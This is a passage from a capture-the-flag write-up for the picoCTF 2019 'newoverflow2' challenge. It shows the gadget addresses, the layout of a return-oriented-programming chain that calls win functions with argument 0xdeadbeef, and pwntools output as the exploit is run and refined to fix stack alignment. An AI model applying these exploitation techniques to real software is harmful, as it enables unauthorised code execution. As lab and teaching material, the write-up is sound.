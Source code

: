 ```bash
0x00000000004008a5: mov eax, 0; call 0x610; nop; leave; ret; 
0x00000000004008c1: mov eax, 0; call 0x630; nop; leave; ret; 
0x0000000000400926: mov eax, 0; call 0x8b2; mov eax, 0; leave; ret;
```
Calling this will do the job.  
So now the ropchain looks like:
`pop rdi + argument + win_fn1 + movpop + somevalue`  
Where `movpop` is the above instruction and `somevalue` is a 8-byte random value to be popped into rbp before returning.

### 4. Test and refine the payload
Running it now, it doesn't work.
```bash
kali@kali:~/Desktop/pctf/newoverflow2$ python solve.py 
[+] Connecting to 2019shell1.picoctf.com on port 22: Done
[*] jib1337@2019shell1.picoctf.com:
    Distro    Ubuntu 18.04
    OS:       linux
    Arch:     amd64
    Version:  4.15.0
    ASLR:     Enabled
[*] '/home/kali/Desktop/pctf/newoverflow2/vuln'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting remote process 'vuln' on 2019shell1.picoctf.com: pid 1960352
Welcome to 64-bit. Can you match these numbers?

[+] Receiving all data: Done (19B)
[*] Stopped remote process 'vuln' on 2019shell1.picoctf.com (pid 1960352)
Nope, not quite...
```
This is because there is a stack alignment issue as a result of the payload (https://research.csiro.au/tsblog/debugging-stories-stack-alignment-matters/). This can be using a second payload which gets sent first, which redirects code flow back to main. I then send my second (and proper) payload that retrieves the flag (see solve.py).
```bash
kali@kali:~/Desktop/pctf/newoverflow2$ python solve.py 
[*] '/home/kali/Desktop/pctf/newoverflow2/vuln'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loading gadgets for '/home/kali/Desktop/pctf/newoverflow2/vuln'
[*] 0x0000:         0x4009a3 pop rdi; ret
    0x0008:       0xdeadbeef [arg0] rdi = 3735928559
    0x0010:         0x400767 win_fn1
    0x0018:         0x4007b4
    0x0020:       0xeeeeeeee
    0x0028:         0x4007be win_fn()
[+] Starting local process '/home/kali/Desktop/pctf/newoverflow2/vuln': pid 2404
Welcome to 64-bit. Can you match these numbers?

FLAG{Placeholder}

[*] Stopped process '/home/kali/Desktop/pctf/newoverflow2/vuln' (pid 2404)
```
Great, now it works.
